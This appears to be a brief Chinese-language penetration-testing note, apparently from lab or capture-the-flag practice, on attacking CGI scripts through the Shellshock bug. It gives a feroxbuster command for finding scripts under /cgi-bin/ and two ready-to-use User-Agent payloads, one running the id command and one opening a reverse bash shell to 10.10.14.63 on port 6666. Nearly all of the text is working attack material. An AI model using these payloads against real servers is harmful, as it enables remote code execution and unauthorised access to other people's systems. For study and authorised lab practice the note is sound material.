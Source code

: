# cgi（shellshock）

先nikto放着然后开始手动测试

1. 扫目录

```bash
feroxbuster -u http://10.129.12.37/cgi-bin/ -x sh,cgi,pl
如果能扫到，就说明可以shellshock来搞
```

```bash
User-Agent: () { :;}; echo; /usr/bin/id
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.63/6666 0>&1
```
